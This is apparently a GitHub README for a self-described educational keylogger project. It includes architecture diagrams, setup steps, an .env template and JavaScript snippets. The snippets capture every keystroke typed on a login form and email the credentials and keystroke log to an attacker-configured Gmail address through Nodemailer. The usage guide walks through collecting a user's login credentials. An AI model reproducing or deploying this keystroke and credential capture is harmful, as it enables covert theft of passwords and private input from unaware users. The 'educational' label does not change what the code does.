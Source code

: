 # 🕵️‍♂️ Keylogger Project

A comprehensive **educational project** demonstrating **client-server communication, event handling, and data processing** in web applications. This implementation focuses on understanding **keystroke capture mechanisms** and **secure data transmission protocols**.

---

## 📌 System Architecture

```mermaid
flowchart TD
    classDef frontend fill:#42A5F5,color:#fff,stroke:#1976D2
    classDef backend fill:#66BB6A,color:#fff,stroke:#388E3C
    classDef storage fill:#FFA726,color:#000,stroke:#F57C00
    
    subgraph Frontend[Frontend Layer]
        UI[Login Form]:::frontend
        KS[Keystroke Capture]:::frontend
        FM[Form Manager]:::frontend
    end
    
    subgraph Backend[Backend Services]
        Server[Express Server]:::backend
        KEYS[Keystroke Processor]:::backend
        Email[Nodemailer Service]:::backend
    end
    
    subgraph Storage[Configuration]
        ENV[.env Configuration]:::storage
    end
    
    UI --> KS
    KS --> FM
    FM --> Server
    Server --> KEYS
    KEYS --> Email
    ENV -.-> Server
    
    subgraph Legend[Component Types]
        F[Frontend Components]:::frontend
        B[Backend Services]:::backend
        S[Storage/Config]:::storage
    end
```

### 🔹 Layers Overview:
- **🔵 Frontend Layer:** Handles user interaction and keystroke capture
- **🟢 Backend Services:** Processes captured data and manages email transmission
- **🟡 Configuration:** Stores environment variables and settings

---

## 📂 Project Structure

```plaintext
📁 project-root/
├── 📄 index.js          # Backend server implementation
├── 📄 script.js         # Frontend keystroke capture
├── 📄 index.html        # Login form interface
├── 📄 keycodes.js       # Key mapping definitions
├── 📄 styles.css        # UI styling
└── 📄 .env             # Environment configuration
```

---

## 🔄 Data Flow Visualization

```mermaid
sequenceDiagram
    participant User
    participant Form as Login Form
    participant KC as Keystroke Capture
    participant FM as Form Manager
    participant Server as Express Server
    participant KP as Keystroke Processor
    participant Email as Nodemailer Service
    
    Note over User,Email: Normal Login Flow
    User->>Form: Enter credentials
    Form->>KC: Capture keystrokes
    KC->>FM: Store captured keys
    User->>FM: Submit form
    FM->>Server: Send credentials + keystrokes
    
    Note over Server,Email: Processing Phase
    Server->>KP: Process keystroke data
    KP->>Email: Prepare email payload
    Email-->>User: Send confirmation email
    
    Note over User,Email: Error Handling
    alt Invalid Credentials
        Server-->>User: Return error message
    else Email Failure
        Email-->>Server: Report delivery error
    end
```

### 🔹 Phases Breakdown:
1. **🔵 Normal Login Flow** – User interaction and data capture
2. **🟢 Processing Phase** – Data handling and transmission
3. **🟡 Error Handling** – Robust fault tolerance mechanisms

---

## 🛠️ Setup Instructions

### 🔹 Clone the Repository
```bash
git clone https://github.com/pranaykumar2/keylogger.git
```

### 🔹 Install Dependencies
```bash
npm install
```

### 🔹 Configure Environment Variables
```plaintext
GMAILFROM=your-from-email@gmail.com
PASSWORD=your-email-password
GMAILTO=your-to-email@gmail.com
PORT=3000
```

### 🔹 Initialize Server
```bash
node index.js
```

---

## 🔍 Implementation Details

### ✏️ Keystroke Capture Mechanism
```javascript
document.addEventListener('keydown', (event) => {
    const keyInfo = {
        keyCode: event.keyCode,
        key: event.key,
        timestamp: new Date().getTime(),
        eventType: 'keydown'
    };
    capturedKeys.push(keyInfo);
});
```

### 📩 Email Transmission System
```javascript
const transporter = nodemailer.createTransport({
    service: 'gmail',
    auth: {
        user: process.env.GMAILFROM,
        pass: process.env.PASSWORD
    }
});

const mailOptions = {
    from: process.env.GMAILFROM,
    to: process.env.GMAILTO,
    subject: 'Keystrokes Log',
    text: `Keystrokes log for user ${username}:
${keysPressedText}`
};
```

---

## 🔐 Security Considerations

- ✅ **Use environment variables** to store sensitive credentials
- ✅ **Implement error handling and logging** for robust operations
- ✅ **Use secure communication protocols** to prevent data leaks
- ✅ **Regularly update dependencies** to prevent vulnerabilities

---

## 📋 Steps to Setup `APP PASSWORD`

1. Go to your Google Account **App Passwords**: [Google App Passwords](https://myaccount.google.com/apppasswords)
2. Name your app and create the password
3. Copy the generated password and use it in the `.env` file

---

## 📝 Usage Guide

- 🚀 **Launch the application** at `localhost:3000`
- 📌 **Enter login credentials** in the form
- ⌨️ **Type any additional text** while the page is active
- 📤 **Submit the form** to trigger email transmission

---

## 💻 Technologies Used

🔷 **Frontend:** HTML, CSS, JavaScript  
🔷 **Backend:** Node.js, Express.js  
🔷 **Utilities:** Nodemailer, Body-parser  
🔷 **Development:** Git

---

## 🤝 Contributing Guidelines

- 📌 **Open an issue** before submitting major changes
- 📌 **Follow the existing code style** for consistency
- 📌 **Include comprehensive test cases** when adding features
- 📌 **Document new features** thoroughly in the README

---

## 📜 License

Released under the **MIT License**. See `LICENSE` file for details.

---

### 🎯 **Enjoy coding and stay secure! 🔐**

